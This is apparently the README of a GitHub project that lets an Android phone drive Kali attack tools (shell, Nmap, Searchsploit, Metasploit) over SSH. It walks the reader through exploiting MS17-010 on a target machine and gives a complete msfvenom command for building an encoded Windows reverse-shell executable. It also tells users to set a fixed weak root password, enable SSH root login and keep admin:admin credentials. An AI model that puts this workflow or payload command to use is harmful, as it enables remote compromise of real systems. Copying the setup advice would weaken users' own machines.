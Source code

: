 # Hack Into Your Heart

**This tool is only use for academic and educational.If someone use this tool causes any loss to others, I will not take any responsibility.**

You must change root password to !ROOTER and open SSH root permissions.

### Download:
```
git clone https://github.com/aifred0729-TW/hack_into_your_heart.git
```

## Usage

Install Offensive_Security on android phone or your android virtual environment.

Login page default credentials is admin:admin

Start SSH service for AI2 program connect.<br>
Download the ms17-010.sh to /root and put the command.rc to /root, ms17-010.sh will used.<br>
If the vulnerable VM has the MS17-010 vulnerabilities, you can run checker.py with python2 to confirm target can be exploit.<br>
When checker.py is successful scan the vulnerable VM pipe, run send_and_execute.py with python2 to exploit the vulnerable VM.<br>

If you no have the shell.exe, use the msfvenom to spawn one.
```
msfvenom -p windows/shell_reverse_tcp -a x86 -e x86/shikata_ga_nai LHOST=<Your Local IP> LPORT=<Listen Port> -f exe -o shell.exe
```


### Linux Bash Module:<br>
Type the IP address of kali and type your bash command on it, than you can execute.<br>
If you know how to use the ssh, then you should be know how to use this modulel.<br>

Example Command:
```
ifconfig
```

### Nmap Module:<br>
Type the IP address of kali and target and setup the option then you can execute.<br>
Scan report will below the console.<br>


### Searchsploit Module:<br>
Type the vulnerabilities number or CMS/Service name and version.<br>
If the input CMS/Service is vulnerable, than it will show the exploit.<br>

### Metasploit Module:<br>
Type the RHost LHost to input box and select a exploit module, then you can exploit.<br>
For security reason, if metasploit successful remote code execution, the target will be shutdown in 3 second.<br>
**The Target is not 100% can be exploit**


My Email:aifred0729@yahoo.com<br>
My Facebook:https://www.facebook.com/profile.php?id=100009717251061<br>

Try Harder!!

